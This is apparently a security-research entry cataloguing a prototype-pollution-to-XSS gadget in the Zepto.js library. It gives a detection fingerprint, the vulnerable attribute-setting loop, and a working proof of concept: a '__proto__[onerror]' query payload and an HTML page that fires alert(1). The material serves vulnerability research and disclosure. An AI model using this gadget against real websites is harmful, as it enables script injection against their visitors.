 ## Zepto.js

URL: https://zeptojs.com/

### JS Fingerprint
```
(typeof $ !== 'undefined' && typeof $.zepto !== 'undefined')
```

### Vulnerable code fragment
https://github.com/madrobby/zepto/blob/763b3d6dc3b4350759ed30aa196cd2b6e39efcfb/src/zepto.js#L140-L162
```js
      $.each(properties, function(key, value) {
        if (methodAttributes.indexOf(key) > -1) nodes[key](value)
        else nodes.attr(key, value)
      })
```

### PoC

```
?__proto__[onerror]=alert(1)
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/zepto/1.2.0/zepto.js"></script>
<script>
    Object.prototype.onerror="alert(1)"
</script>
<script>
    $("<img/src>", {id: "x"})
</script>
```
